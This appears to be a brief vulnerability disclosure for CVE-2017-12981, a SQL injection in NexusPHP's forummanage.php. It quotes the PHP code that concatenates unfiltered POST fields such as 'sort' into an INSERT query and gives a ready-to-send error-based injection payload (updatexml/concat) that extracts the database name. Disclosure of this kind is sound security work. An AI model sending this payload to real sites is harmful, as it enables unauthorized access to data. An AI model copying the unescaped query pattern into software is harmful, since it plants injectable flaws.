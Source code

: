 ## CVE-2017-12981
## nexusphp v1.5.beta5.20120707 sql injection

### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
#### /nexusphp.v1.5.beta5.20120707/forummanage.php  Line 63

```
elseif ($_POST['action'] == "addforum") {
	$name = ($_POST['name']);
	$desc = ($_POST['desc']);
	if (!$name && !$desc) {
		header("Location: " . get_protocol_prefix() . "$BASEURL/forummanage.php");
		die();
	}
	sql_query("INSERT INTO forums (sort, name,  description, minclassread,  minclasswrite, minclasscreate, forid) VALUES(" . $_POST['sort'] . ", " . sqlesc($_POST['name']). ", " . sqlesc($_POST['desc']). ", " . $_POST['readclass'] . ", " . $_POST['writeclass'] . ", " . $_POST['createclass'] . ", ".sqlesc(($_POST['overforums'])).")") or sqlerr(__FILE__, __LINE__);
```
***$_POST['sort']***   has not been filtered to cause injection
###exp：
```
action=addforum&name=1desc=1&sort=11 or updatexml(1,concat(0x7e,(database())),0)&readclass=1&writeclass=1&createclass=1&overforums=1
```
![Alt text](./001.jpg)

